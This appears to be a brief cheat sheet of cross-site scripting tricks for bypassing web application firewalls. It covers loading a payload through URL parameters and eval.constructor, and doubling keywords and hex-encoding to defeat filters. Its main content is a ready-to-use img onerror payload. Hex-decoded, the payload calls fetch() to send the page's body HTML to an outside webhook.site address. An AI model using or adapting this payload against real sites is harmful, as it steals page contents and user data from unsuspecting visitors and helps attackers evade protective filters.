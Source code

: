 Sometimes bypass WAF strats by putting in the URL like https://site.tldr/?payloads=PAYLOAD_HERE and then do **eval.constructor** or **eval(document.href and then do like parsing like .split()[])**
to dynamically load it in.


Sometimes you can use HEX to bypass keyword blacklists too like this:
**No paranthesis, no ON (replaced), all lowercased, no spaces XSS**
**/** -> **" "** by browsers.
```html
html=<img/src="x"/oonnerror="eval.coonnstructor`\x66\x65\x74\x63\x68\x28\x22\x68\x74\x74\x70\x73\x3a\x2f\x2f\x77\x65\x62\x68\x6f\x6f\x6b\x2e\x73\x69\x74\x65\x2f\x37\x66\x32\x65\x64\x63\x36\x35\x2d\x64\x35\x39\x34\x2d\x34\x64\x64\x63\x2d\x62\x66\x39\x63\x2d\x63\x32\x36\x32\x62\x31\x65\x32\x38\x63\x65\x37\x3f\x22\x2b\x62\x74\x6f\x61\x28\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x62\x6f\x64\x79\x2e\x69\x6e\x6e\x65\x72\x48\x54\x4d\x4c\x29\x29```"
```



